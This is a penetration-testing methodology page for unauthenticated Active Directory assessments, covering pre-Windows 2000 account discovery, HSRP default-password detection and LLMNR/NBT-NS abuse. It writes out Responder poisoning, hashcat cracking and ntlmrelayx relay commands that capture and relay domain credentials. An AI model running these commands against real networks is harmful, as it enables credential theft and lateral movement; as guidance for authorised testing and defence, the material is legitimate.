 # Unauthenticated Pentesting Methodology
___

## Discover Pre2k Computer Objects

[Pre2k](https://github.com/garrettfoster13/pre2k) is a tool to query for the existence of pre-windows 2000 computer objects which can be leveraged to gain a foothold in a target domain. When you pre-create computer accounts with the Assign this computer account as a pre-Windows 2000 computer checkmark, the password for the computer account becomes the same as the computer account in lowercase.

If you discover any affected systems, you now have domain credentials! (PetitPotam, ADCS abuse, enumerate domain, etc.)

## Save a packet capture

sudo timeout 300 tcpdump -i eth1 -s0 -w pcapfile.pcap

### Detect HSRP default password 'cisco'.

https://isc.sans.edu/diary/Network+Reliability%2C+Part+2+-+HSRP+Attacks+and+Defenses/10120

tcpdump -XX -r pcapfile.pcap udp port 1985 or udp port 2029 | grep -B4 cisco

This is a common finding on enterprise networks that will not be detected by vulnerability scanners, so it's likely to have been overlooked. I recommend that you only report on this finding and do not try to exploit it because you may break the network and since you're testing from remote, you won't be there to stop the attack and restore the default router if things go awry! I suggest a severity of "Medium" for this finding due to the default credential and ease of exploitation, yet access is limited to the internal network and enables only a "Person In The Middle" (MiTM) attack.

### Detect LLMNR and NBT-NS

tcpdump -r pcapfile.pcap udp port 137 or udp port 5355

### LLMNR and/or NBT-NS detected?

There are two approaches to exploiting:
1. Run Responder and crack captured hashes:
   - `sudo responder -I eth0 -D -w -P`
   - `sudo hashcat -m 5700 -r [rule file] [hash file] [wordlist]`

2. Relay connections:
   - Run crackmapexec with the --gen-relay-list option to generate a file containing hosts that don't require SMB Signing. `crackmapexec smb [file containing IP's with port 445/tcp open] --gen-relay-list scans/smb-signing.txt`
   - Run Impacket ntlmrelayx with the -tf option specifying the file from the previous step. `./ntlmrelayx -tf scans/smb-signing.txt -l [LOOTDIR] -of [outputfile] -smb2support -socks | tee logs/ntlmrelayx.log`
   - Reconfigure Responder. Edit `/usr/share/responder/Responder.conf`. Under "Servers to start", set `SMB = Off` and save.
   - Rerun Responder: `./Responder.py -I [interface] -wrd`
   - Monitor ntlmrelayx output for any hashes that get dumped. If you get some, move to the Authenticated Methodology and use CrackMapExec.
   - Note: With a socks connection you can only use smbexec or atexec. Neither wmiexec, psexec nor dcomexec will work.
